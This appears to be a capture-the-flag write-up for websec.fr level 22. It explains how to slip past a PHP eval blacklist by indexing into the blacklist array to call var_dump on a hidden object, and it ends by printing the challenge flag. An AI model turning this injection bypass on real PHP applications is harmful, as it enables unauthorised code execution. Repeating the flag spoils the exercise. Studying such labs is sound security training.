 # Level 22

1. First, lets check what is written in http://websec.fr/level22/source.php
2. Then, we would find a blacklist and it is sad that we can not use commands which are in the list. So we have to check the list and find what command we want.
3. Now, we have to check what is in the list. Lets look up the command below : 
    ```
    if ($insecure) {
        echo 'Insecure code detected!';
    } else {
        eval ("echo $code;");
    }
    ```
    To be brief, if we type anything in the blacklist, we can't do anything. But we can type
    ```
    echo '$blacklist{0}';
    ```
    Inorder to check the first command of the blacklist and the result is : 
    ```
    func_num_args
    ```
    Since it is a huge number, we need our best friend Python to help us.
4. After we know how to check, next step, we have to know what command we need to dump the value we need and where to dump. So, after search on the web with keywords "dump data php", we are able to find the command "var_dump" easily.
5. Now, we have to know where we would like to dump the flag. Lets check the code below : 
    ```
    class A {
        public $pub;
        protected $pro ;
        private $pri;

        function __construct($pub, $pro, $pri) {
            $this->pub = $pub;
            $this->pro = $pro;
            $this->pri = $pri;
        }
    }

    include 'file_containing_the_flag_parts.php';
    $a = new A($f1, $f2, $f3);
    ```
    So, we know that "$a" is the place where we want to dump the data.
6. The final step, lets think of a payload that can dump all the data from "$a" : 
    ```
    var_dump($a)
    ```
    Since we cannot type any of the command in the blacklist, we can use the payload below 
    ```
    $blacklist{a number}($a) == var_dump($a)
    ```
    Then, we can get our flag ~~~
7. Here is the flag : WEBSEC{But_I_was_told_that_OOP_was_flawless_and_stuff_:<}
